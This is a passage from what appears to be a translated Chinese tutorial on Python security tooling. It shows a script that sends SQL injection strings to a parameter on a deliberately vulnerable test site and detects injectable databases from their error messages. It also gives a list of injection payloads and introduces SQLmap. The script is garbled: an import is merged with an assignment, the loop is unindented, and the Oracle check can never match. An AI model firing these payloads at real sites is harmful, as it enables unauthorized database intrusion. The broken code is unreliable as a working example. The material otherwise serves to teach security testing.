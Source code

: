 ![](img/80922e96-f6b7-442b-afd3-8aab9b8ef063.png)

使用 Python，我们可以构建一个简单的脚本，从`sql-attack-vector.txt`文本文件中读取可能的 SQL 攻击向量，并检查注入特定字符串的输出结果。目标是从识别易受攻击的参数的 URL 开始，并将原始 URL 与攻击向量组合在一起。

您可以在`sql_injection`文件夹中的`test_url_sql_injection.py`文件中找到以下代码：

```py
import requests url = "http://testphp.vulnweb.com/listproducts.php?cat="

with open('sql-attack-vector.txt') as file:
for payload in file:
    print ("Testing "+ url + payload)
    response = requests.post(url+payload)
    #print(response.text)
    if "mysql" in response.text.lower():
        print("Injectable MySQL detected")
        print("Attack string: "+payload)
    elif "native client" in response.text.lower():
        print("Injectable MSSQL detected")
        print("Attack string: "+payload)
    elif "syntax error" in response.text.lower():
        print("Injectable PostGRES detected")
        print("Attack string: "+payload)
    elif "ORA" in response.text.lower():
        print("Injectable Oracle detected")
        print("Attack string: "+payload)
    else:
        print("Not Injectable")
```

您可以在`sql_injection`文件夹中的`sql-attack-vector.txt`文件中找到以下代码：

```py
" or "a"="a
" or "x"="x
" or 0=0 #
" or 0=0 --
" or 1=1 or ""="
" or 1=1--
```

执行`test_url_sql_injection.py`时，我们可以看到易受多个向量攻击的可注入 cat 参数：

![](img/83c0687c-c1ef-4791-89f7-348735a48ee7.png)

# 介绍 SQLmap

SQLmap 是用 Python 编写的最著名的工具之一，用于检测漏洞，例如 SQL 注入。为此，该工具允许对 URL 的参数进行请求，这些参数通过 GET 或 POST 请求指示，并检测某些参数是否容易受攻击，因为参数未正确验证。此外，如果它检测到任何漏洞，它有能力攻击服务器以发现表名，下载数据库，并自动执行 SQL 查询。

在[`sqlmap.org`](http://sqlmap.org)了解更多关于 sqlmap 的信息。

Sqlmap 是一个用 Python 编写的自动化工具，用于查找和利用 SQL 注入漏洞。它可以使用各种技术来发现 SQL 注入漏洞，例如基于布尔的盲目、基于时间的、基于 UNION 查询的和堆叠查询。
